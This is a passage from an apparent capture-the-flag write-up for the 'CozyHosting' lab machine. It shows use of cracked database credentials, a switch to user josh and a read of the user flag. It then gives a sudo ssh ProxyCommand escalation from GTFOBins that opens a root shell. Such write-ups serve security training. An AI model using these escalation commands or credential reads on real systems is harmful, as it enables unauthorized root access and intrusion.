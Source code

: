 So our gathered credentials from the database are `admin`:`manchesterunited` .

### `user.txt`

I didn't include a screenshot/terminal output of this, but checking other `ssh` users with `$ cat /etc/passwd` shows `josh` as the second user, so we can infer that the `admin` user is probably .

```bash
cozyhosting=# exit
could not save history to file "/home/app/.psql_history": No such file or directory
(remote) app@cozyhosting:/app$ su josh
Password:
josh@cozyhosting:/app$ cd ~
josh@cozyhosting:~$ ls
user.txt
josh@cozyhosting:~$ cat user.txt
7d21d6bcbd68d25a92908bf5290b1a69
```

### `root.txt`

Finally, lets see what privilege escalation options might be available to us before enumerating with `linpeas.sh`:

```bash
(remote) josh@cozyhosting:/tmp$ sudo -l
[sudo] password for josh:
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\\\:/usr/local/bin\\\\:/usr/sbin\\\\:/usr/bin\\\\:/sbin\\\\:/bin\\\\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *

```

As we can run the `ssh` binary as `root` with sudo, we can use a pretty simple payload from `gtfobins` to grab our final flag.

```bash
(remote) josh@cozyhosting:/tmp$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# whoami
root
# cat /root/root.txt
0******************************6
#

```
